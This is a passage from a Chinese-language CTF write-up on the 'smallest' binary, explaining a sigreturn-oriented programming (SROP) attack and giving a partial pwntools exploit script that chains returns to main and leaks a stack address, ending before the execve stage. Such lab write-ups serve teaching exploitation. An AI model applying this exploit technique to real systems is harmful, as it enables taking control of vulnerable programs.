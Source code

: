     此时栈情况如图<8>
    
    esp指向我们写入的syscall\_addr地址，由于我们成功写入了15个字符，故此时的eax为15，程序ret返回到syscall\_addr处进行系统调用，此时的系统调用号存储在eax正好是15，调用sigreturn，根据frame设定的结构，程序接下来会执行system(execve)
    
    [![](assets/1701606411-7fe291ad1049dec00eac371ee4ba46d9.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231129205213-1e4c11d6-8eb6-1.jpg)
    
*   完整exp
    
    ```plain
    # -*- coding: utf-8 -*-
    from pwn import *
    
    context(os='linux',arch='amd64',log_level='debug')
    p = process('./smallest')
    
    main_addr = 0x04000B0
    syscall_addr = 0x04000BE
    
    #三次main_addr是为了构造后面三次跳转
    payload = p64(main_addr) + p64(main_addr) + p64(main_addr)
    p.send(payload)
    #gdb.attach(p)
    #程序成功将三个地址写入栈中，此时执行ret后将程序返回至main_addr,而esp指向第二个main_addr
    #进行新一轮的read，发送3的目的是将当前esp(也就是第二个的值进行更改),由于程序是小端存储，故此时的0x04000B0会变成0x04000B3,这个地址正好对应的是mov  edx, 400h，跳过了xor rax,rax(将rax的值变成0)，read函数的特性，写入了一个字符后，将写入的长度存放在rax，也就是为1，接着执行到ret，将程序返回至0x04000B3，此时esp指向的是刚开始的第三个main_addr
    #由于rax里面的值为1，正好是write函数的系统调用号，也就意味着接下来执行的是write函数,而需要输出的首地址是esp，此时第一个存放的是main_addr,接下来的8到16就是我们需要得到的地址
    #输出地址后，程序执行ret，此时程序又返回到main_addr,程序重新开始
    p.send('\xb3')
    #得到栈地址
    stack_addr = u64(p.recv()[8:16])
    print("stack addr:"+hex(stack_addr))
    